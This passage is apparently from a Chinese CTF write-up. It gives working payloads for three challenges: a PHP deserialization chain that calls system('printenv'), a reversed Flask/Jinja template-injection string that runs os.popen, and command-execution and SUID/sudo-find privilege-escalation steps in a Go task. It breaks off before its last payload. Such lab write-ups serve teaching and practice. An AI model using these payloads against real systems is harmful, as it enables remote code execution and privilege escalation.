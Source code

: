 payload

```php
$a=new A();
$a->className="B";
$a->funcName="system";
$a->args="printenv";
echo(base64_encode(strrev(serialize($a))));
```





### flask

观察到模板注入会先将字符串逆向然后在进行渲染

payload

```py
}})(daer.)'vnetnirp'(nepop.)'so'(]'__tropmi__'[__snitliub__.__slabolg__.__tini__.fles{{
```

flag在环境变量里

*真正的逆向*

### ezgo

根据提示，在cmd下post shit

![image-20230404180557158](C:\Users\20925\AppData\Roaming\Typora\typora-user-images\image-20230404180557158.png)

可以看到会运行的环境变量下的可执行文件，使用绝对路径绕过

 `/bin/ls -l`

![image-20230404180828918](C:\Users\20925\AppData\Roaming\Typora\typora-user-images\image-20230404180828918.png)

`/usr/bin/whoami` 发现我们是用户 ctf

读取发现没有权限，那就是提权了

弹shell 也是一直接收不到

*   suid

```
shit=find / -user root -perm -4000 -exec ls -ldb {} ; > /tmp/suid
```

一片空白

*   sudo -l

```shell
User ctf may run the following commands on 362a742042d64fd4:
    (root) NOPASSWD: /usr/bin/find
```

payload
